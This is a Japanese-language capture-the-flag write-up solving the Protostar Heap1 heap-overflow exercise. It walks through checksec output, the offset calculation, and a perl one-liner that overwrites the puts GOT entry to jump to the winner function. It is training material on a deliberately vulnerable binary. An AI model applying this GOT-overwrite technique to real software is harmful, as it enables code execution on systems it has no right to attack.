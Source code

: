 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/endless/exploit-exercises-protostar-heap1/
  - /blog/2016/01/22/exploit-exercises-protostar-heap1/
date: 2016-01-22T14:29:45+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "buffer-overflow" ]
---
```


# Exploit Exercises Protostar Heap1

## [Protostar Heap1](https://exploit-exercises.com/protostar/heap1/)

``` sh
$ file heap1
heap1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=d8d9ab550fbb79da574639c8d3abdf96594cc21d, not stripped

$ checksec --file heap1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   heap1
```

と`No RELRO`なのでgotへの書き込みが可能である。与えられたコードによると、

``` c
  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
```

と2回書き込みがあるので、1回目でoverflowにより`i2->name`に`printf`のgotのアドレスを書き込み、2回目の書き込みはそのgotに目的の関数`winner`のアドレスを書き込めばよい。
ただし、`printf("and that's a wrap folks!\n");`の呼び出しは最適化により`puts("and that's a wrap folks!");`で置き換わっている[^1]ので、`puts`のgotを使用する。

``` sh
$ ./heap1 foo bar
and that's a wrap folks!

$ gdb heap1
...
# the malloc-ed addresses are 0x804a008, 0x804a018, 0x804a028 and 0x804a038

$ echo $[0x804a028+4 - 0x804a018]
20

$ objdump -d -M intel heap1 | grep -A 1 '<puts@plt>:'
080483cc <puts@plt>:
 80483cc:   ff 25 74 97 04 08       jmp    DWORD PTR ds:0x8049774

$ readelf -s heap1 | grep '\<winner\>'
    55: 08048494    37 FUNC    GLOBAL DEFAULT   14 winner

$ ./heap1 $(perl -e 'print "A"x20, "\x74\x97\x04\x08"') $(echo "\x94\x84\x04\x08")
and we have a winner @ 1453452850
```

---

# Exploit Exercises Protostar Heap1

[^1]: gccであればdefaultの`-O0`でも発生する最適化。`-fno-builtin`で抑制できる。
